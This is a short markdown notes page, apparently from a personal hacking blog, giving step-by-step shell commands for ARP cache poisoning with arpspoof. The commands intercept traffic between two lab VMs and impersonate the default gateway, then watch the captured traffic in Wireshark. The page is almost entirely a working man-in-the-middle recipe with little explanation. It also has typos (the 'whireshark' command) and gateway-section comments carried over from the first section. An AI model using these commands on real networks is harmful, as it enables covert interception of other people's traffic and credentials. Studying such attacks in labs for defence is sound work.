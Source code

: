 ```yaml
---
title: "Arpspoof Arp Cache Poisoning"
date: 2020-05-02T18:19:48+02:00
tags:
  - hacking
  - arp
---
```


## Listening to traffic between two VMs from a third VM.

- VM1: 192.168.100.244
- VM2: 192.168.100.145

```sh
# Enable ip forwarding
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Ensure arpspoof is avaailable
sudo apt install dsniff
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $VM2
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $VM2 $VM1
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Using wireshark will allow to check/follow traffic
sudo whireshark
```

## Pretending to be the default gateway

- VM1: 192.168.100.244
- GW: 192.168.100.1

```sh
# Enable ip forwarding
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Ensure arpspoof is avaailable
sudo apt install dsniff
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $GW
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $GW $VM1
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Using wireshark will allow to check/follow traffic
sudo whireshark
```
